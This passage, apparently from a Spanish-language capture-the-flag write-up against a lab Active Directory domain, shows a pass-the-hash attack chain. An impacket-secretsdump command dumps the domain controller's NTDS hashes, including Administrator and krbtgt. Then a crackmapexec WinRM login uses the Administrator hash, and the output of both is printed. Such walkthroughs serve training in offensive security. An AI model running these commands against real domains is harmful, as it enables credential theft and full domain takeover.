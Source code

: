 ```
SMB         10.0.4.18       445    DC01             [-] SOUPEDECODE.LOCAL\eyara3:b9dd4c7c72ad5d5dacbff4590a8426cc STATUS_LOGON_FAILURE
..................<REST_OF_USERS>.........................................
```
El hash coincide con el de la contraseña de DC01$

Ahora con este hash podemos utilizar otra vez la herramienta impacket secretsdump.py para dumpear los hashes, pero esta vez los hashes del dominio.

```bash
impacket-secretsdump 'SOUPEDECODE.LOCAL/DC01$@10.0.4.18' -hashes 'aad3b435b51404eeaad3b435b51404ee:b9dd4c7c72ad5d5dacbff4590a8426cc'
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
soupedecode.local\kleo2:1105:aad3b435b51404eeaad3b435b51404ee:bda63615bc51724865a0cd0b4fd9ec14:::
soupedecode.local\eyara3:1106:aad3b435b51404eeaad3b435b51404ee:68e34c259878fd6a31c85cbea32ac671:::
soupedecode.local\pquinn4:1107:aad3b435b51404eeaad3b435b51404ee:92cdedd79a2fe7cbc8c55826b0ff2d54:::
soupedecode.local\jharper5:1108:aad3b435b51404eeaad3b435b51404ee:800f9c9d3e4654d9bd590fc4296adf01:::
..................<REST_OF_USERS>.........................................
```

Hemos conseguido dumpear los hashes de dominio de todos los usuarios del sistema, incluido el usuario Administrador

Comprobamos que con el hash podemos acceder por winrm como administrador

```bash
crackmapexec winrm 10.0.4.18 -u Administrator -H '8982babd4da89d33210779a6c5b078bd' 
```

Info:
```
SMB         10.0.4.18       5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:SOUPEDECODE.LOCAL)
HTTP        10.0.4.18       5985   DC01             [*] http://10.0.4.18:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.0.4.18       5985   DC01             [+] SOUPEDECODE.LOCAL\Administrator:8982babd4da89d33210779a6c5b078bd (Pwn3d!)
```
